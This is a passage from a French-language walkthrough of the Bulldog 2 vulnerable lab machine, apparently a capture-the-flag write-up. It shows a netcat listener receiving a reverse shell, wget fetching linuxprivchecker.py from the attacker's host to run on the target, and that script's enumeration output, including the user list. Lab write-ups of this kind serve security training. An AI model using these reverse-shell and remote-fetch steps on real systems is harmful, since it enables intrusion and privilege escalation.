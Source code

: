 ```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 58496
bash: cannot set terminal process group (835): Inappropriate ioctl for device
bash: no job control in this shell
node@bulldog2:/var/www/node/Bulldog-2-The-Reckoning$ 
```

## Bulldog ou Cerbère ? Le douzième travail d'Hercule

Le script [__linuxprivchecker.py__](https://github.com/sleventyeleven/linuxprivchecker) développé par Mike Czumak (@SecuritySift) va scanner un certain nombre d'éléments sur le serveur : configuration de la machine, version du noyau Linux, listing des utilisateurs et de leurs privilèges, fichiers aux droits trop permissifs... et renvoie à la fin du scan une liste d'exploits censés permettre une élévation de privilèges.

```console
node@bulldog2:/tmp$ wget -q http://192.168.56.102:1234/linuxprivchecker.py 
wget -q http://192.168.56.102:1234/linuxprivchecker.py

node@bulldog2:/tmp$ python linuxprivchecker.py
python linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================

[*] GETTING BASIC SYSTEM INFO...

[+] Kernel
    Linux version 4.15.0-23-generic (buildd@lgw01-amd64-055)
	(gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018

[+] Hostname
    bulldog2

[+] Operating System
    --snip--
    Author: Nick Frichette
    Twitter: @frichette_n
    Goal: Get root, read the flag in /root
    IP Address: \4{enp0s3}
    Have fun!

--snip--

[+] All users
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    --snip--
    admin:x:1000:1004:admin:/home/admin:/bin/bash
    mongodb:x:111:65534::/home/mongodb:/usr/sbin/nologin
    node:x:1001:1005:,,,:/home/node:/bin/bash

[+] Current User
    node

[+] Current User ID
    uid=1001(node) gid=1005(node) groups=1005(node)

```